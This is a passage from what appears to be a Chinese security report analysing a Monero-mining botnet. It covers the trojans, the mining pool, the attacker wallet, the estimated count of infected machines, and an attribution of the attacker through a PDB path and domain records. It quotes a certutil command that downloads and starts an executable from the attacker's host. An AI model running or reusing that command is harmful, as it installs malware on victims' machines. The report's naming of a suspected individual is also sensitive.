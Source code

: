 ```
certutil -urlcache -split -f hxxp://raw.nicosoft.org/conhost.exe conhost.exe&start conhost.exe
```

**挖矿**

入侵 Linux 系统下载的挖矿木马 java：  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJlpuOk8OojBSaf8oXr2obFwuCOAN8ajdAd1e5OLZMxLwWsE05FLPsWA/640?wx_fmt=png)

入侵 Windows 系统后下载的 dowanload 木马 conhost.exe，负责继续下载和启动挖矿木马 SqlTools.exe  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJjb7XzBBRjFIQmm6pB9MH81SSb6ocp4tqOn6Ip9If4MxjBBvA8LhGug/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJGLlnQQJbePNLRibSxQPM8Jfc8neLXzc9FDfQwibCNFW9rMHjw9hs0XGA/640?wx_fmt=png)

挖矿木马 SqlTools.exe  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJJicy71uTzDvjQs7RoYa70rC7ySLjIMhiab1oYdBcTiariakibib79Jb5Kq1A/640?wx_fmt=png)

挖矿使用矿池：xmr.f2pool.com  
两种系统下的挖矿木马使用同一个钱包：  

42Pv7VF4etz1dDPkjRWDEec2FVoFzSPDYKCsjNXDdusaTShBZZn6nr8GyNsqu8ekjSU17jmu7h6SfLg1Lr3rrJnHVokCbso  
钱包收益：7 个 XMR

过去一个月钱包算力翻番，从 150kH/s 左右涨到了 300kH/s，这也意味着感染的机器翻了一倍，估算在 3000 台左右。  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJic2PxmuYwJzzrXqBsLLpzr6KvbTuvNsyqB4R7xAnw9YrpMoIvG2cv3w/640?wx_fmt=png)

  

  

**三、关联分析  
**

分析样本发现，dowanload 木马 conhost.exe 中保留了文件的 PDB 信息，其中 “Nico Jiang” 疑似木马作者的 ID 号。  

```
C:\Users\Nico Jiang\source\repos\NicoSoft\x64\Release\conhost.pdb
```

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJdLmb2O1yW6sEuH7o8uQjmPm2NaSu0CsXraE9U72kzNcKex3mXBrdfg/640?wx_fmt=png)

通过腾讯安图高级威胁溯源系统查询木马下载使用的域名 “raw.nicosoft.org”，同样发现了注册者的名字为 “Nico Jiang”，推测该 ID 号是攻击者的可能性较高。  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJ26z3WATBFLiapvHKOz5B3cAGnOcXLbGerib86zMSvx8RMXIV47ia22TGw/640?wx_fmt=png)

通过搜索引擎搜索，发现域名注册的 QQ 邮箱对应 QQ 号所有者，在某个论坛接一些批量登录工具的开发需求。  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJevBYdWXRzFnEPC1Lq9oChEWCLKb92Alvn2CDcRJoYFAbo6XpvzqiarQ/640?wx_fmt=png)

该 ID 注册的另一个域名 ns-game.top  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJJibLQXJWWV22Unr3gbickTMOr7a4knD30icZv9GZcdjhQtzJJPYAWJWrQ/640?wx_fmt=png)

通过该域名注册使用的 outlook 邮箱, 查询到在 github 提交的项目，属于相关平台的辅助管理插件：  
